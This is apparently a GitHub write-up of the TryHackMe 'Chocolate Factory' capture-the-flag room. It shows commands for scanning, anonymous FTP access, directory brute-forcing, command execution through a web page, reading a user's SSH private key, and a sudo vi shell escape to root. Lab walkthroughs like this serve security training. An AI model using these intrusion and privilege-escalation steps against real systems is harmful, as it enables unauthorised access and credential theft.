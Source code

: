 # TryHackMe-Chocolate-Factory-WriteUp
TryHackMe Chocolate Factory WriteUp

first we scan the machine using nmap using the command: nmap -sV [IP HERE]

nmap scan:
----------
21/tcp  open  ftp        vsftpd 3.0.3
22/tcp  open  ssh        OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http       Apache httpd 2.4.29 ((Ubuntu))
100/tcp open  newacct?
106/tcp open  pop3pw?
109/tcp open  pop2?
110/tcp open  pop3?
111/tcp open  rpcbind?
113/tcp open  ident?
119/tcp open  nntp?
125/tcp open  locus-map?
----------
we login to ftp using username: "anonymous" and password: "anonymous"

ftp found "gum_room.jpg", used steghide to extract it: "steghide extract -sf gum_room.jpg"
didnt put passphrase, b64.txt extracterd.
found what looks like a /etc/shadow file. didnt find anything usefull.
----------
we open the webpage and find a login portal.
i used gobuster to enumrate directories.
"gobuster dir -u http://[IP HERE] -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .php,.txt,.html"
gobuster: the name of the tool.
dir: specify we want to bruteforce directiories.
-u: specify the url
-w: specify the world list
-x: look for filees with exstinsions.

result: 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.125.237
[+] Method:                  GET
[+] Threads:                 54
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,txt,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 278]
/.html                (Status: 403) [Size: 278]
/index.html           (Status: 200) [Size: 1466]
/home.php             (Status: 200) [Size: 569]
/validate.php         (Status: 200) [Size: 93]
/.php                 (Status: 403) [Size: 278]
/.html                (Status: 403) [Size: 278]
----------
we navigat to home.php, you can run commands in it.

![image](https://github.com/3bodeS/TryHackMe-Chocolate-Factory-WriteUp/assets/62934084/31328d5d-7b3c-4da8-9d8b-fd4475152840)

we try the whoami command

![image](https://github.com/3bodeS/TryHackMe-Chocolate-Factory-WriteUp/assets/62934084/8cf2685a-7078-42d9-9941-39b071417adb)

it works!
we search for users in the home directory using “ls /home"

![image](https://github.com/3bodeS/TryHackMe-Chocolate-Factory-WriteUp/assets/62934084/96d7bf6b-4f29-4aef-97c2-fd7cfe113a57)

found user charlie, we list the files, using "ls /home/charlie"

 ![image](https://github.com/3bodeS/TryHackMe-Chocolate-Factory-WriteUp/assets/62934084/3c453544-953a-44d1-b065-04195b075d5a)

"cat /home/charlie/teleport", Bingo! found ssh private key.

![image](https://github.com/3bodeS/TryHackMe-Chocolate-Factory-WriteUp/assets/62934084/82535ef1-a991-4952-89a4-b67110ab22bb)

i copied it into id_rsa file then give it the right permissions using “chmod +600”
test if we can login using ssh to the user.
the credintials works!

![image](https://github.com/3bodeS/TryHackMe-Chocolate-Factory-WriteUp/assets/62934084/9522c208-f459-47b1-ae7f-8c4100d71e28)

in /var/www/html i found a file named key_rev_key, i try to run it:

![image](https://github.com/3bodeS/TryHackMe-Chocolate-Factory-WriteUp/assets/62934084/0297133e-a4ca-474e-9666-f5e0b726651c)

changed the permissions using “chmod +x key_rev_key”

![image](https://github.com/3bodeS/TryHackMe-Chocolate-Factory-WriteUp/assets/62934084/b2901f69-3384-42a9-bada-0c384fbf021e)

since its a binary, we can check the file contents using “ strings key_rev_key”

![image](https://github.com/3bodeS/TryHackMe-Chocolate-Factory-WriteUp/assets/62934084/34ce26e8-bcc5-4d97-b07f-0afe6d27704d)

got the key! 
b'-VkgXhFf6sAEcAwrC6YR-SZbiuSb8ABXeQuvhcGSQzY='

in /var/www/html we "cat" validate.php: 

![image](https://github.com/3bodeS/TryHackMe-Chocolate-Factory-WriteUp/assets/62934084/2199617c-b703-453a-aaad-aba2359fb1cd)

run validate.php , bingo we got charlies password :)

login to charlies account using "su charlie"
user.txt:
![image](https://github.com/3bodeS/TryHackMe-Chocolate-Factory-WriteUp/assets/62934084/afefcc59-1a50-41a5-b35c-11c2ad7a984d)

----------
Privilge escalition:

in charlie, i tried "sudo -l"

result:

Matching Defaults entries for charlie on chocolate-factory:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User charlie may run the following commands on chocolate-factory:
    (ALL : !root) NOPASSWD: /usr/bin/vi


in gtfobins, vi -c ':!/bin/sh' /dev/null
tried run "sudo vi -c ':!/bin/sh' /dev/null"
charlie@chocolate-factory:/home/charlie$ sudo vi -c ':!/bin/sh' /dev/null
pwned!!

root flag:

we find root.py
we run it , enter the key we obtained before , and it shows us the root flag.

![image(1)](https://github.com/3bodeS/TryHackMe-Chocolate-Factory-WriteUp/assets/62934084/cabbb2fe-8af8-46ec-a323-7764c1441762)

Happy Pwning :)
